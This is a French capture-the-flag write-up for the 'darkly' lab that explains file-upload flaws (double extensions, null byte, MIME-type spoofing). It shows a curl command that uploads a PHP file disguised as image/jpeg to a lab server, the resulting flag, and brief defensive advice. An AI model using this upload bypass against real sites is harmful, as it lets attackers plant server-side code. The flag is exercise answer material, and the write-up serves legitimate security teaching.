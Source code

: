 # Faille upload

Cette faille est très dangereuse car un utilisateur malintentionné pourrait prendre le contrôle du site ou le serveur.

Quand on fait un formulaire avec un input de type file, on peut avoir principalement deux failles différentes :

* Faille avec double extension : même si on limite le type de fichier en vérifiant l'extension, un utilisateur pourrait charger sur le serveur une image appelée `backdoor.php.jpg` ou bien `backdoor.php\0.jpg`.
Le `\0` indique le fin de la chaine et il pourrait être enregistré comme backdoor.php.

* Faille sur la vérification du type MIME : c'est la faille que l'on peut exploiter sur darkly.
Le type MIME d’un fichier désigne le type de contenu dont est composé un fichier, mais il est possible de faire une requete en spécifiant le type `image/jpeg` quand on envoie un fichier `.php`.

## Le flag

Pour avoir le flag on peut utiliser l'application postman ou cURL.

On inspecte le formulaire et on voit qu'il y a deux input qui seront envoyés, `uploaded` qui correspond à l'image et `submit` pour le button.

```html
<form enctype="multipart/form-data" action="#" method="POST">

	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">

</form>
```

On peut alors utiliser curl avec les deux inputs envoyés mais en espéciciant le `type=image/jpeg` pour le fichier `.php`.

```shell script
curl -X POST 'http://10.2.8.38/?page=upload' -F 'uploaded=@/Users/lgarcia-/test.php;type=image/jpeg' -F 'Upload=Upload'
```

Sur la reponse du serveur on pourra voir le flag.

```html
<!DOCTYPE HTML>
<html>
[...]
    <!-- Main -->
    <section id="main" class="wrapper">
        <div class="container" style="margin-top:75px">
            <pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
            [...]

</html>
```

## Comment s'en proteger ?

Il ne faut pas se fier des extensions et vérifier qu'il n'y a pas `.php` sur l'extension.
On peut aussi vérifier le type MIME mais ne peut pas être la seul vérification.

Il faut rénomer le fichier avec un nom aléatoire pour éviter qu'il soit écrasé et vérifier la taille de celui-ci.
Il est important aussi d'assigner les bonnes permissions au répertoire.